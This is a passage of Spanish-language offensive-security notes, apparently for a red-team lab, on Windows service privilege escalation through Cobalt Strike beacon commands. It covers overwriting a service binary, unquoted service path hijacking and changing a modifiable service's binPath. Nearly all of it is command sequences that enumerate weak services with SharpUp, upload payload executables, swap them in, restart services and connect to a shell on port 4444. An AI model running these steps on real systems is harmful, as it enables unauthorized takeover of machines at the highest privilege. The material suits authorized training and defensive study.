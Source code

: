 **Ejemplo:**
```powershell
beacon> cd "C:\Program Files\Bad Windows Service\Service Executable"
beacon> upload C:\Payloads\dns_x64.exe
beacon> mv dns_x64.exe cmd.exe
```


### 🔹 **3. Unquoted Service Path Hijacking**

**Qué es:**  
Servicios que se configuran con rutas que contienen espacios y no están entre comillas. Windows busca de forma ambigua (`C:\Program Files\Bad.exe`, etc.).

**Buscar rutas sin comillas:**

```powershell
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
beacon> cd C:\Program Files\Vulnerable Services
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe Service.exe
beacon> run sc stop VulnService1
beacon> run sc start VulnService1
beacon> connect localhost 4444
```


### 🔹 **4. Servie Permisions**

#### 💥 Requisitos
- Permiso de **modificación sobre la configuración** del servicio (`sc config`).
- El binario no necesita ser vulnerable, solo la configuración

```powershell
# 1. Enumerar servicios modificables
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices

# 2. Ver permisos exactos
beacon> powershell-import Get-ServiceAcl.ps1
beacon> powershell Get-ServiceAcl -Name VulnService2 | select -expand Access

# 3. Ver configuración actual
beacon> run sc qc VulnService2

# 4. Subir payload
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload tcp-local_x64.svc.exe

# 5. Cambiar ruta del binario
beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe

# 6. Reiniciar servicio
beacon> run sc stop VulnService2
beacon> run sc start VulnService2

# 7. Conectarse al reverse shell
beacon> connect localhost 4444
```
